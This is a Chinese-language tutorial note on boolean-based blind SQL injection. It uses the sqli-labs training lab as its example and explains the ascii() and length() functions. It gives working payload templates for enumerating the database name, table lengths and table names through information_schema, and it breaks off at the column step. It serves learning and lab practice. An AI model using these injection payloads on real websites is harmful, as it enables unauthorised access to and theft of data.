 #### 布尔盲注

##### 使用条件

web页面只返回True真，False假两种类型利用页面返回不同，逐个猜解数据

如：sqli-labs第8题

正确返回You are in....错误返回空白

##### 关键函数

###### ascii()

美国信息交换标准代码,可以把字母转换为对应数字

只能将（）括号内的第一个字符返回ascll值

###### length()

`length(str)`:返回str串长度

##### 使用方法

1.确定存在sql漏洞

2.获取闭合方式

3.构建布尔盲注语句

##### 注入语句

获取数据库

长度 

`?id=1' and length(database())=x --+ x为查询数字，如果正确，页面返回True 如果错误，页面不返回内容`

`like ?id=1' AND LENGTH(database())=1 --+`

名称

`?id=1' and ascii(substring(database,x,1))>=x1 --+ x为查询数据库名字的第x个字符，x1与x的ascii值进行比较，进行判断`

`like ?id=1' AND ASCII(SUBSTRING(database(),1,1))>=97 --+`

~~当然也可以选择直接查询而不是用二分法的形式~~

获取表

长度

`?id=1' and  (select length(table_name) from information_schema.tables where  table_schema='  ' )=X --+ x为查询数字，同获取数据库长度,Y为第Y个表开始`

名称

`?id=1' and ascii(substring((select  table_name from information_schema.tables where table_schema='' limit Y,1),x,1))>=x1 --+  x为查询表名的第x个字符，x1与x的ascii值进行比较，进行判断,Y为第Y个表开始`

按照索引逐个列出表名，调整 `limit 0,1` 为 `limit 1,1`，`limit 2,1` 等以获取更多表名。

获取列
